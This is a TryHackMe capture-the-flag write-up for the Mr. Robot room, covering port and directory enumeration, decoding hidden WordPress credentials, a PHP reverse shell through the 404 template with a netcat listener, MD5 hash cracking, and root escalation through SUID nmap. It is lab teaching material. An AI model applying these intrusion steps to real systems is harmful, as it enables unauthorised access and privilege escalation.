

# Mr. Robot CTF - TryHackMe Report


## Target Information
- **Name:** [Mr. Robot CTF](https://tryhackme.com/room/mrrobot)  
- **Platform:** TryHackMe  
- **Difficulty:** Medium    
- **Creator:** [Ben](https://tryhackme.com/p/ben)  

The Mr. Robot CTF is a medium-difficulty challenge on TryHackMe, inspired by the popular TV show. The goal is to exploit vulnerabilities in a target machine to find three hidden flags, ultimately gaining root access. This report documents the steps taken, tools used, and techniques applied to successfully complete the challenge.

---

## Enumeration

### Nmap Scan
```bash
nmap -sS -sC -sV -T4 -p- 10.10.156.120 -oN /home/kali/boxes/mrrobot/nmap.txt
```
**Flags Explained:**
- `-sS`: SYN Scan (stealth)  
- `-sC`: Run default scripts  
- `-sV`: Version detection  
- `-T4`: Aggressive timing  
- `-p-`: Scan all 65,535 ports  
- `-oN`: Save output to a file


**Results:** Ports **22 (SSH)**, **80 (HTTP)**, and **443 (HTTPS)** are open.  

---

### Gobuster - Directory Bruteforce
```bash
gobuster dir -u http://10.10.156.120 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,xml -o /home/kali/boxes/mrrobot/gobuster.txt
```
**Flags Explained**
- `-w /usr/share/wordlists/dirb/common.txt` The wordlist to use for brute-forcing.
- `-t 50` Number of threads to use for faster scanning.
- `-x php,html,xml` File extensions to search for (e.g., .php, .html, and .xml).
- `-o /home/kali/boxes/mrrobot/gobuster.txt` Save the output to a text file for reference.


**Findings:**  
- `/robots.txt` reveals two interesting directories:  
  - `/key-1-of-3.txt`  
  - `/fsocity.dic`
 


---

## Web Enumeration

### First Flag
Access the first flag directly:
```bash
curl http://10.10.156.120/key-1-of-3.txt
```


---

### Extract Wordlist

This could be used later for a brute force attack

```bash
curl http://10.10.156.120/fsocity.dic > /home/kali/boxes/mrrobot/fsocity.txt
```


---

### Identify WordPress
Run WPScan to check for vulnerabilities:
```bash
wpscan --url http://10.10.156.120 -e vp,vt,u -o /home/kali/boxes/mrrobot/wpscan.txt
```
- `-e vp,vt,u` Enumerate vulnerable plugins, themes, and users
- `-o` Output to a file


**Result:** No critical vulnerabilities found.  

---

## Gaining Access

### Base64 Hidden Text
Inspect the `/license` page source and decode the hidden Base64 string:
```bash
echo *base64_hash* | base64 --decode
```


**Credentials for elliot found.**

Log into WP as elliot


---

### Reverse Shell via PHP
Upload a PHP reverse shell via the 404.php page.  
I used [PentestMonkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).


Start a Netcat listener:
```bash
nc -lvnp 4444
```


Trigger the shell by visiting a non-existent page (404 error).



Upgrade to a stable shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Gather information about the system

```bash
whoami && id
uname -a
cat /etc/os-release
cat /proc/version
hostname
if config
```


Check /etc/passwd

```bash
cat /etc/passwd
```
Nothing useful found

---

## Privilege Escalation

### Hash Extraction
Navigate to `/home/robot` and find:
```bash
key-2-of-3.txt (Permission Denied)
password.raw-md5 (Contains a hash)
```


---

### Crack the Hash
Identify the hash type:
```bash
hashid -m '*hash*'
```
or  
```bash
haiti *hash*
```

Crack it with Hashcat:
```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt -w 3
```
- `-m 0` Specifies the hash type to crack.
- `hash.txt` The file containing the hash(es) you want to crack.
- `/usr/share/wordlists/rockyou.txt` The wordlist to use for brute-forcing.
- `-o cracked.txt` Specifies the output file where the cracked passwords will be saved.
- `-w 3` Sets the workload profile.


---

### Switch to Robot User
```bash
su robot
```
check sudo permissions - no permission

```bash
sudo -l
```


Read the second flag in `/home/robot`:
```bash
cat key-2-of-3.txt
```


---

### SUID Privilege Escalation via Nmap
Find SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```


Nmap has SUID set and we have execute permission.  
Use GTFOBins to escalate to root:
```bash
nmap --interactive
```
In interactive mode, run:
```bash
!sh
```
Root access


---

## Root Flag
Navigate to `/root` and read the final flag:
```bash
cat /root/key-3-of-3.txt
```

---

## Tools Used
- Nmap - A network scanning tool used to discover open ports and services.
- Gobuster - A directory brute-forcing tool to find hidden files and directories.
- WPScan - A WordPress vulnerability scanner to identify weaknesses in the CMS.
- Hashcat - A password-cracking tool used to recover plaintext passwords from hashes.
- Hashid / Haiti - Tools used for identifying the type of hash.
- Pentest Monkey PHP Reverse Shell - A widely used script for gaining remote shell access to a target machine.
- Netcat - A networking tool used for creating reverse shells and listening for connections.

---

## Conclusion
- Successfully gained **Root Access**  
- Captured all **three flags**  
- Privilege Escalation through **SUID Nmap Exploit**  

---

## Final Thoughts
- Weak credentials - The use of weak passwords made it easy to crack the MD5 hash and gain access to the robot user.
- WordPress vulnerabilities - The WordPress installation lacked proper security measures, making it vulnerable to exploitation.
- SUID misconfiguration on Nmap - The misconfigured SUID bit on Nmap allowed for privilege escalation to root.

---
